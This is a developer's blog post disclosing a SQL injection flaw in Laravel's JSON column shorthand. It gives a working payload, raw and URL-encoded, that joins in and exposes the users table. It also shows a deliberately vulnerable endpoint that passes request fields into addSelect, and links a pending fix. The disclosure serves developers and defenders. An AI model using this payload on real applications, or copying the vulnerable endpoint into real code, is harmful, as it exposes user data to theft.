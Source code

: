 Laravel has the ability to manually specify which columns to select on a query.
It also offers a nice shorthand to work with JSON data:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs>');
```

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs>"') FROM blogs;
```

Instead of manually writing `JSON_EXTRACT`, we can use the simplified `->` syntax, 
which Laravel will convert to a the correct SQL statement.

Laravel won't do any escaping during this conversion. 
Consider the following example:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs><hljs red>'#</hljs>');
```

By inserting `'#` in our input, we can manually close the `JSON_EXTRACT` function, 
and ignore the rest of the query:

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs><hljs red>'#</hljs><hljs textgrey>"') FROM blogs;</hljs>
```

This query will fail, but what about the next one?

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(
    `<hljs green>title</hljs>`, 
    '$."<hljs blue>en</hljs><hljs red>"')) 
FROM blogs RIGHT OUTER JOIN users ON users.id <> null
#</hljs>
    <hljs textgrey>"') FROM blogs;</hljs>
```

We're adding an outer join on the `users` table. 
Essentially selecting all data in it. 

For reference, here is the URL encoded version of the malicious code:

```
<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

Say we have the following endpoint in our application, to query blog posts from a public API:

```php
<hljs type>Route</hljs>::<hljs prop>get</hljs>('/posts', function (<hljs type>Request</hljs> $request) {
    $fields = $request-><hljs prop>get</hljs>('fields', []);

    $users = <hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>($fields)-><hljs prop>get</hljs>();

    return <hljs prop>response</hljs>()-><hljs prop>json</hljs>($users);
});
```

Users of this API might only be interested in a few fields, 
that's why we added a `field` filter.

The endpoint can now be used like this:

```
/blog?fields[]=url&fields[]=title
```

What if we inserted our malicious code instead?

```
/blog?fields[]=<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

It will be added to the query. And by returning the query result as JSON, 
we'll see the full contents of the users table. 

```php
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>([
    '<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>'
])-><hljs prop>get</hljs>();
```

Two things need to be in place for this attack to be possible:

- An accessible API endpoint, which allows an attacker to write to the `addSelect` or `select`.
Chances are you're not doing this manually in your project.
Though there are popular packages which allow this functionality to provide easy API endpoints.
A popular example is the JSON API spec, which specifically allows for [sparse fieldsets](*https://jsonapi.org/format/#fetching-sparse-fieldsets).
- The entry point table must have a column with JSON data. 
Otherwise the `JSON_EXTRACT` function will fail, stopping our query. 
From the entry point though, you can access all data.

As far as I can tell, it's not possible to write to the database with this approach, 
as Laravel only allows one query to be executed. 
If you're inserting `;` to end the current query and start a new one, you'll get an error.

I've submitted a PR to fix this issue, at the moment of writing, it's still pending:
[https://github.com/laravel/framework/pull/28160](*https://github.com/laravel/framework/pull/28160).
